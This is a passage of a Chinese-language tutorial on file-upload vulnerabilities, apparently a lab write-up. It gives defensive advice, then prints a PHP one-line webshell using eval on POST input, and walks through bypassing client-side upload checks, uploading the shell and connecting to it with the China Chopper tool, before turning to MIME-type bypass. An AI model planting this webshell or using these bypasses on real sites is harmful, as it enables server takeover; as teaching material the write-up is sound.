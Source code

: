 > 文件上传的目录设置为不可执行 只要web容器无法解析该目录下的文件，即使攻击者上传了脚本文件，服务器本身也不会受到影响，因此此点至关重要。实际中，很多大型网站的上传应用，文件上传后会放到独立的储存上，做静态处理。但对一些小应用，如果存在上传功能，则仍需要多加关注

> 判断文件类型： 判断文件类型时，应结合MIME Type、后缀检查等方式。推荐使用白名单，黑名单的方式已经无数次被证明不可靠。此外，针对图片处理，可以使用亚索函数或者resize函数，在处理图片的同事破坏掉图片中可能包含的HTML代码

> 使用随机数改写文件名和文件路径 文件上传如果要执行代码，则需要用户能够访问到这个文件。在某些环境中，用户能上传，但不能访问。如果应用使用随机函数改写了文件名和路径，将极大增加攻击成本。与此同时，像1.php.rar.rar、或者1.xml这种文件，都因为文件名被改写而无法成功实施攻击

**6.一句话木马原理**

-   就是这一句话：<?php @eval($\_POST\['#'\];)?>
-   原理：使用eval方法它里面的字符串将会被执行,这样当脚本在服务器端运行的时候同时也执行了 Request.form('#')+''这句代码,Request.form('#')的作用是读取客户端文件中html标记属性中name值被命名 为#的部分
-   接下来的实验二、三 的主要目的就是想办法让后缀为.php的一句话木马而不是正常的.jpg文件得到解析，因此使用各种方法绕过，总之就是要想办法上传一个披着.jpg外套的木马

### 二、小试牛刀

**1\. 再现杰奇网站漏洞环境**

-   **找到上传点：上传照片的位置**

![](https://upload-images.jianshu.io/upload_images/6425650-0c173e1010f351c6.png?imageMogr2/auto-orient/strip|imageView2/2/w/895/format/webp)

image

-   **上传绕过**

方法一：通过firebug删除前端代码中上传验证的代码

![](https://upload-images.jianshu.io/upload_images/6425650-66305ad6f9f32521.png?imageMogr2/auto-orient/strip|imageView2/2/w/826/format/webp)

image

方法二：在firebug中修改js代码，相当于添加白名单

![](https://upload-images.jianshu.io/upload_images/6425650-2a59312eb96a4d38.png?imageMogr2/auto-orient/strip|imageView2/2/w/749/format/webp)

image

-   **制作一句话木马并保存为yijuhua.php**

![](https://upload-images.jianshu.io/upload_images/6425650-46bc38f6e07027e6.png?imageMogr2/auto-orient/strip|imageView2/2/w/325/format/webp)

image

___

-   使用中国菜刀工具链接网站并输入一句话木马中的#即可连接，获得网站的webshell

> webshell是以asp、php、jsp或者cgi等网页文件形式存在的一种命令执行环境，也可以将其称做为一种网页后门，在入侵了一个网站后，将asp或php后门文件与网站服务器WEB目录下正常的网页文件混在一起，就可以使用浏览器来访问asp或者php后门，得到一个命令执行环境，可以达到控制网站服务器的目的。

___

**2\. MIME类型绕过漏洞**

> **MIME:客户端软件**  
> **MIME检测原理**  
> 服务端MIME类型检测是通过检查http包的Content-Type字段中的值来判断上传文件是否合法的。
